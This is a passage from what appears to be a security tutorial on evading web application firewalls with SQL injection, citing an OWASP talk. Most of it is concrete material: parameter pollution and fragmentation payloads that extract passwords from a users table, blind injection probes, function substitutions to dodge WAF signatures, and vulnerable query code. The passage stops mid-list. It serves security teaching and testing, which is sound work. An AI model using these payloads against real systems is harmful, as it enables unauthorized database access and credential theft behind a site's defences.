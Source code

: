 • The following request doesn’t allow anyone to conduct an attack

` /?id=1;select+1,2,3+from+users+where+id=1--`

• This request will be successfully performed using HPP

` /?id=1;select+1&id=2,3+from+users+where+id=1--`

*Successful conduction of an HPP attack bypassing WAF depends on the
environment of the application being attacked.* [EU09 Luca Carettoni, Stefano diPaola](http://wiki.owasp.org/images/b/ba/AppsecEU09_CarettoniDiPaola_v0.8.pdf)

![SQL Injection using HTTP Parameter Pollution](../assets/images/attacks/sql-injection-HPP.png)

**Using HTTP Parameter Pollution (HPP)**

• Vulnerable code

` SQL=" select key from table where id= "+Request.QueryString("id")`

• This request is successfully performed using the HPP technique

` /?id=1/**/union/*&id=*/select/*&id=*/pwd/*&id=*/from/*&id=*/users`

• The SQL request becomes select key from table where

` id=1/**/union/*,*/select/*,*/pwd/*,*/from/*,*/users`

**ByPassing WAF: SQL Injection – HPF**
Using HTTP Parameter Fragmentation (HPF)

• Vulnerable code example

` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']);`
` Query("select * from table where a=".$_GET['a']." and b=".$_GET['b']." limit".$_GET['c']);`

• The following request doesn’t allow anyone to conduct an attack

` /?a=1+union+select+1,2/*`

• These requests may be successfully performed using HPF

` /?a=1+union/*&b=*/select+1,2`
` /?a=1+union/*&b=*/select+1,pass/*&c=*/from+users--`

• The SQL requests become

` select * from table where a=1 union/* and b=*/select 1,2`
` select * from table where a=1 union/* and b=*/select 1,pass/* limit */from users--`

**Bypassing WAF: Blind SQL Injection**
Using logical requests AND/OR
• The following requests allow one to conduct a successful attack for
many WAFs

` /?id=1+OR+0x50=0x50`
` /?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74`

<i>Negation and inequality signs (\!=, \<\>, \<, \>) can be used instead
of the equality one – It is amazing, but many WAFs miss it\!</i>

It becomes possible to exploit the vulnerability with the method of
blind-SQL Injection by replacing SQL functions that get to WAF
signatures with their synonyms.
<i> substring() -\> mid(), substr()
ascii() -\> hex(), bin()
benchmark() -\> sleep() </i>
<u>Wide variety of logical requests.</u>
and 1
or 1
and 1=1
and 2\<3
and 'a'='a'
and 'a'\<\>'b'